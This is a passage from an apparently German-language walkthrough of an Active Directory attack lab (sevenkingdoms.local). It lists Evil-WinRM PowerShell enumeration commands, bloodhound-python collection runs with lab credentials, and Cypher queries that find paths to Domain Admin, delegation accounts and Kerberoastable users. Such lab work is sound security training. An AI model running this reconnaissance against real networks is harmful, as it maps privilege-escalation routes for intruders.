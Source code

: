 #### PowerShell Enumeration Commands
```powershell
# In Evil-WinRM Session
PS> Get-ADUser -Filter * -Properties * | Select Name,SamAccountName,Description,ServicePrincipalNames
PS> Get-ADGroup -Filter * | Select Name,GroupScope,GroupCategory
PS> Get-ADComputer -Filter * | Select Name,OperatingSystem,LastLogonDate

# Lokale Privilegien prüfen
PS> whoami /groups
PS> net localgroup administrators
PS> Get-LocalGroupMember -Group "Administrators"

# Delegation und Kerberos-Konfiguration
PS> Get-ADUser -Filter * -Properties TrustedForDelegation,TrustedToAuthForDelegation
PS> Get-ADComputer -Filter * -Properties TrustedForDelegation
```

### 5.3 BloodHound Data Collection

#### Complete Domain Intelligence
```bash
# BloodHound Python für alle Domänen
bloodhound-python -d north.sevenkingdoms.local -u jon.snow -p iknownothing -ns 192.168.20.11 -c All --zip

# Falls weitere Credentials verfügbar
bloodhound-python -d sevenkingdoms.local -u administrator -p recovered_password -ns 192.168.20.10 -c All --zip
bloodhound-python -d essos.local -u administrator -p recovered_password -ns 192.168.20.12 -c All --zip

# BloodHound GUI öffnen und Daten importieren
/opt/BloodHound-linux-x64/BloodHound --no-sandbox
```

#### BloodHound Analysis Queries
```cypher
// Kürzester Weg zu Domain Admin
MATCH p=shortestPath((u:User {name:"JON.SNOW@NORTH.SEVENKINGDOMS.LOCAL"})-[*1..]->(g:Group {name:"DOMAIN ADMINS@NORTH.SEVENKINGDOMS.LOCAL"})) RETURN p

// Cross-Domain Privilege Paths
MATCH (u:User)-[:MemberOf*1..]->(g:Group) WHERE g.domain <> u.domain RETURN u.name, g.name

// Service Accounts mit Delegation
MATCH (u:User) WHERE u.unconstraineddelegation=true OR u.allowedtodelegate IS NOT NULL RETURN u.name

// Kerberoastable Users
MATCH (u:User) WHERE u.hasspn=true RETURN u.name, u.serviceprincipalnames
```

---